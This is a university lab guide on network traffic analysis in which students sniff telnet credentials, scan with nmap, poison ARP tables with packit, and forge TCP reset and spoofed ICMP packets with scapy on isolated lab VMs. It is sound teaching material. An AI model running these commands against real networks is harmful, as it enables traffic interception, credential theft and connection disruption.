

Instituto Superior Técnico, Universidade de Lisboa

**Network and Computer Security**

# Lab guide: Traffic Analysis

## Goals

- Gather information about the machines in the network.
- Explore some of the vulnerabilities of TCP/IP.
- Learn about _tcpdump_,_Wireshark,_ _nmap_, _scapy, packit_ _and OpenVAS_ tools.


## Preparation

For this assignment you will need the 2nd and 3rd machines ( **VM2** and **VM3** ) you created in the last assignment. 
You will also need to create a 4th machine (henceforth called **VM4** ) and put it in the same network as machine **VM2** and **VM3** (which was associated to the _Internal Network_). 
Simply cloning **VM3** and changing its static IP to 192.168.1.2 will suffice. 

**It is assumed that VM2 is 192.168.1.254 and VM3 is 192.168.1.1, from the previous laboratory assignment.**

Note: 
If there are repeated MAC addresses, use the following command in the machine where you want to change the MAC address, for the adapter that is repeated:

```
$ sudo /sbin/ip link set eth0 address 00:00:00:00:00:11
```


## 1 Listening to the network

We will experiment with three tools: tcpdump, Wireshark and nmap.

### 1.1 tcpdump

The program tcpdump allows you to listen to the local network 
(`$ man tcpdump` for more information).

Run tcpdump in **VM2** and detect the packet ICMP (using ping -c 1) from **VM3** to **VM4**. 
To identify the header, the IP address, the MAC address and protocol use:

```
$ sudo tcpdump -i enp0s8 –X -XX dst host <IP destination>
```

Keep tcpdump running, start a telnet connection between **VM3** and **VM4**. 
Read the username and password of the user. 
Observe that username and password appear letter by letter in different packets (the -i option selects the network interface).

```
$ sudo tcpdump -i enp0s8 –X dst host <IP destination>
```

Keep tcpdump running and start a ssh connection between **VM3** and **VM4**. 
Observe that it is not possible to read the username or password.

You may need to install ssh-server in vm4. To do so execute:

```
$ sudo apt install openssh-server
```

### 1.2 Wireshark

The wireshark program has a similar functionality to that of tcpdump but provides a graphical user interface.

In **VM2** run **wireshark** in command prompt.

```
$ sudo wireshark
```

Go to the **Capture** -\&gt; **Options** menu;
Choose interface **enp0s8** (or the one being used to communicate);
Select: **Update list of packets in real time**, **Automatic scrolling in live capture**, **Hide capture info dialog**.

If you cannot see the save button, just close the Options window. 
Your configurations will be saved.

Click **start a new live capture** ;
Observe the network packets while executing (from **VM3** to **VM4** for example):

```
$ ping
$ telnet
```

See the IP and Ethernet headers.
In the **analyze** menu, do **follow tcp stream** to observe both the username and password.

```
$ ssh
```

Question: Why can you not see the credentials of SSH when using tcpdump or wireshark? 
Try analysing an SSH connection using tcpdump as well.

### 1.3 nmap

The nmap tool provides information from remote machines (`$ man nmap` for more information).

To obtain a list of open ports from a remote machine run:

```
$nmap <IP from remote machine>
```

To obtain the operating system from a remote machine run:

```
$ nmap -O  <IP from remote machine>
```


## 2 Vulnerabilities in TCP / IP

In this section we will experiment with ARP redirect, RST hijacking, and redirect ICMP response.

### 2.1 ARP redirect

The ARP table (`$ man arp` for more information) maps IP addresses to MAC addresses. 
It is possible to change this table to redirect packets. 
This vulnerability is important in situations where we have a network with a switch, which make it impossible to read packets with tcpdump. 
To change the ARP table of a remote machine do as follows.

Obtain the MAC addresses from the target. 
From **VM3** do:

```
$ ping -c 1 192.168.1.254

$ ping -c 1 192.168.1.2
```

See the ARP table from **VM2** and **VM4** :

```
$ arp -a
```

Find the MAC address of machine **VM3:**

```
$ sudo ifconfig enp0s3
```

Check the relation between IP address and MAC address. 
In **VM2** do:

```
$ ping -c 1 192.168.1.1

$ ping -c 1 192.168.1.2

$ arp -a
```

By consulting the ARP table it is possible to check if the MAC addresses are correct. 
To change the ARP table in **VM2** , you can use the **packit** command (`man packit`).

To achieve this, in **VM3** do:

```
$ sudo packit -t ARP -a 1 -x  192.168.1.2  -y 192.168.1.254 -Y <MAC of machine 192.168.1.254 - **VM2**> -X <MAC of machine 192.168.1.1 – **VM3**>
```

This command allows the injection of an ARP packet, therefore changing the ARP table in **VM2**. 
When **VM2** receives this packet, it will assume that the MAC address of **VM4** is the MAC address of **VM3**.

To observe these attacks, in **VM2** do:

```
$ arp -a
```

If this procedure is carried out at regular intervals (every 10 seconds, for example) all traffic from the 192.168.1.254 machine ( **VM2** ) to the machine at 192.168.1.2 ( **VM4** ) is redirected to 192.168.1.1 (which is **VM3** ). 
If we do the same for 192.168.1.2 we can have our machine receiving all packets between the two other machines and forward them after reading them.

### 2.2 RST hijacking

The purpose of this attack is to **R**e**S**e**T** a TCP connection.

On **VM4** , check the sequence number of acknowledge and the port used by **VM2**:

```
$ sudo tcpdump -S -n -e -l "tcp[13] & 16 == 16"
```

Bit 13 of the header indicates that the packet has the _ack_.

Set a telnet connection between **VM2** and **VM3**.

Use **scapy** to send a packet of reset, from **VM4** to one of the machines, using the correct sequence number:

```
$ scapy

packet = IP(src='192.168.1.254', dst='192.168.1.1')/TCP(sport=<port>, dport=23, seq=<ack number>, flags='R')

send(packet)
```

Check if the connection is closed.


Question: From which machine are you expecting the _port_ and _ack number_ in the scapy command?

### 2.3 Redirect response to ICMP echo/request

This attack allows a ping response to be sent to a machine that did not make the request.

Run tcpdump on **VM4** to spy the source and destination in the packets
(option -i selects the network interface).

```
$ sudo tcpdump &quot;ip[9]=1&quot;
```

Send a ICMP packet with a wrong source:

```
$scapy

sr(IP(dst='192.168.1.254', src='<IP of a different machine>')/ICMP())
```

### 2.4 More attacks

For the continuation of this lab, refer to the [description of SEED Labs TCP/IP attack lab](http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Networking/TCP_Attacks/TCP_Attacks.pdf) Task 1: SYN Flooding Attack, Task 4: TCP Session Hijacking.

There are more tasks available in the [SEED Labs Networking Labs](https://seedsecuritylabs.org/Labs_16.04/Networking/).


## 3 OpenVAS _(optional)_

OpenVAS is a vulnerability scanner tool, and it can perform a security analysis on a remote machine, by scanning for vulnerabilities. 
In typical operation, OpenVAS begins by doing a port scan to determine which ports are open on the target and then tries various exploits on the open ports.

To install OpenVAS, [follow these instructions](https://hackertarget.com/openvas-9-install-ubuntu-1604/).


Before start using OpenVAS execute the following command to verify your IP address:

```
hostname -I
```

Then go to `https://<your IP address>:4000 and login using the default credentials admin, admin.




*Figure. OpenVAS main screen with the hostname of the machine we want to test.*


Fill the `IP Address or hostname` field with the IP of the machine you want to analyze 
(for example, target **VM2** which is at 192.168.1.254).


----

[SIRS Faculty](mailto:meic-sirs@disciplinas.tecnico.ulisboa.pt)
